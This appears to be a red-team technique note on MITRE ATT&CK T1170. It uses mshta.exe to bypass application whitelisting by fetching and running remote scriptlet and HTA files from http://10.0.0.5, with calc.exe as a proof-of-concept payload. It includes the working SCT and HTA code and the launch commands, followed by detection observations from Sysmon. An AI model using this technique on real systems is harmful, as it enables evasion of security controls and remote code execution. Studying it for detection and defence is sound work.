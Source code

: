 ```yaml
---
description: Application whitelist bypass technique
---
```


# T1170: MSHTA Code Execution

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1170\",\"type\":\"link\",\"title\":\"Mshta - ATT&CK for Enterprise\"}" %}

## Code

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

```bash
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```

## Observations

As expected, calc is spawned by mshta. Also, mhsta and cmd exit almost immediately after invoking the calc.exe.

![](../.gitbook/assets/mshta-calc.png)

Look at sysmon for mshta establishing network connections:

![](../.gitbook/assets/mshta-connection.png)

Also, suspicious commandlines:

![](../.gitbook/assets/mshta-commandline.png)

## Additionally

The hta file can be invoked like so:

```bash
mshta.exe http://10.0.0.5/m.hta
```

![](../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself and clicking run:

![](../.gitbook/assets/mshta-url.png)

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}













